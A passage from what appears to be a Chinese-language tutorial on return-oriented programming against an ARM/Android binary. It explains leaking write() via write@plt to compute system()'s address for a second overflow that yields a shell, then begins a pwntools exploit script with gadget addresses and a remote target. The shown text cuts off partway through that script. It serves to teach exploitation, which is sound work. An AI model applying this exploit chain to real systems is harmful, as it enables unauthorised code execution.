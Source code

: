 
![](../pictures/linuxrop13.jpg)   


![](../pictures/linuxrop14.jpg)   

虽然程序非常简单，可用的gadgets很少。但好消息是我们发现除了程序本身的实现的函数之外，我们还可以使用write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢? 这是因为android和linux类似采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读潘爱民老师的《程序员的自我修养 - 链接、装载与库》这本书，潘老师是我主管的事情我才不会告诉你。）  

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标手机上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行第二次溢出攻击了，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。  

另外需要注意的是write()函数是三个参数，因此我们还需要控制r1和r2才行，刚好程序中有如下gadget可以满足我们的需求：  

`#0x0000863a : pop {r1, r2, r4, r5, r6, pc}`  
另外为了能再一次返回vulnerable_function()，我们需要构造好执行完write函数后的栈的数据，让程序执行完ADD SP, SP,#0x84;POP {PC}后，PC能再一次指向0x000084D8。  


![](../pictures/linuxrop15.jpg)   

最终的explevel9.py如下：  
``` python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x000088be + 1

#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
gadget2 = 0x0000863a + 1

#.text:000084D8 vulnerable_function
ret_to_vul = 0x000084D8 + 1

#write(r0=1, r1=0x0000AFE8, r2=4)
```